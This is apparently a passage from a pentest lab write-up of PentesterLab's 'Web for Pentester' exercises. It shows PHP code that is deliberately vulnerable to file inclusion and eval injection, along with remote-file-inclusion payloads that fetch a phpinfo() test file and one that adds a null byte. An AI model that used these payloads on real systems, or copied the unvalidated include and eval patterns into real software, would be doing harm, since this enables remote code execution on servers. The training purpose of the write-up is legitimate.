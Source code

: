 
{% img center /images/pentest/webpentester/fileinc.png 'file includes' 'file inclusion' %}


Let's see the code:


``` php
<?php

	if ($_GET["page"]) {
		include($_GET["page"]);

	} 
?>
```


There is no validation performed on the file to be included. For this challenge, PentesterLab provides a sample include file that calls phpinfo() at http://assets.pentesterlab.com/test_include.txt 

Just include the above file to see the output of phpinfo(): <code>page=http://assets.pentesterlab.com/test_include.txt</code>


{% img center /images/pentest/webpentester/phpinfo.png 'phpinfo' 'phpinfo output' %}


**Example2**

The URL is slightly different now: http://192.168.217.138/fileincl/example2.php?page=intro

And the code:


``` php
<?php
	if ($_GET["page"]) {
    $file = $_GET["page"].".php";
    // simulate null byte issue
    $file = preg_replace('/\x00.*/',"",$file);
		include($file);
	} 
?>
```


So the code automatically appends a PHP extension to the file, but is also vulnerable to null bytes. I included the same file as in the previous example, with a <code>%00</code> at the end: <code>page=http://assets.pentesterlab.com/test_include.txt%00</code>

### Code injection

**Example 1**


{% img center /images/pentest/webpentester/code1.png 'code injection' 'code injection 1' %}


Source code:


``` php
<?php 
  $str="echo \"Hello ".$_GET['name']."!!!\";";

  eval($str);
?>
```
